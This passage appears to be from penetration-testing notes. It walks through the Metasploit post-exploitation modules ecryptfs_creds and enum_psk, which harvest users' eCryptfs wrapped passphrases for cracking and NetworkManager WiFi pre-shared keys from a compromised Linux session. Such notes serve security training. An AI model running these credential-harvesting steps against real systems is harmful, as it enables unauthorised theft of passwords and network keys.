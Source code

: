 ```bash
search ecryptfs_creds
use post/linux/gather/ecryptfs_creds
info
# Description:
#   This module will collect the contents of all users' .ecrypts 
#   directories on the targeted machine. Collected "wrapped-passphrase" 
#   files can be cracked with John the Ripper (JtR) to recover "mount 
#   passphrases".
sessions
set SESSION 2
run
```

![Metasploit - post/linux/gather/ecryptfs_creds](3-metasploitassets/image-20230422150125356.png)

- Enumerate **WiFi credentials**

```bash
search enum_psk
use post/linux/gather/enum_psk
info
# Description:
#   This module collects 802-11-Wireless-Security credentials such as 
#   Access-Point name and Pre-Shared-Key from your target CLIENT Linux 
#   machine using /etc/NetworkManager/system-connections/ files. The 
#   module gathers NetworkManager's plaintext "psk" information.
set SESSION 2
run
```

![Metasploit - post/linux/gather/enum_psk](3-metasploitassets/image-20230422152033281.png)
